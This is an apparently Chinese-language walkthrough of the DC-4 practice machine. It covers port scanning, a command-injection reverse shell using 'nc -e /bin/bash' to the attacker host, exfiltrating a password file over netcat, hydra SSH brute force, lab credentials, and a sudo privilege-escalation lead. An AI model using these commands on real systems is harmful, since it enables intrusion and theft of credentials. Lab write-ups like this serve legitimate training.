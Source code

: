 ### `DC4 ip`

```
192.168.121.132
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -T4 -v -p 1-65535 192.168.121.132
```

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb -v 192.168.121.132
```

抓包修改重放
得到以下用户名

```
charles
jim
sam
```

保存至`user.txt`

### `kali`

```
nc -lvvp 9999
```

### 修改请求并发送

```
nc -e /bin/bash 192.168.121.131 9999
```

### `kali`

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

### `jim backups` 发现密码本

```
www-data@dc-4:/home/jim/backups$ ls
old-passwords.bak
```

### 取得密码本

```
www-data@dc-4:/home/jim/backups$ nc 192.168.121.131 1234  < old-passwords.bak
nc 192.168.121.131 1234  < old-passwords.bak
```

```
nc -lvvp 1234 > passssss.txt
```

### hydra

```zsh
┌──(kali㉿kali)-[~]
└─$ hydra -L user.txt -P passssss.txt ssh://192.168.121.132
```

### 取得密码

```shell
[22][ssh] host: 192.168.121.132   login: jim   password: jibril04
```
### 登录

```shell
ssh jim@192.168.121.132
```


You have mail.

```
jim@dc-4:/var/mail$ ls
jim
jim@dc-4:/var/mail$ cat jim
```

```
Password is:  ^xHhA&hvim0y

See ya,
Charles
```

```
ssh charles@192.168.121.132
```

```
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```



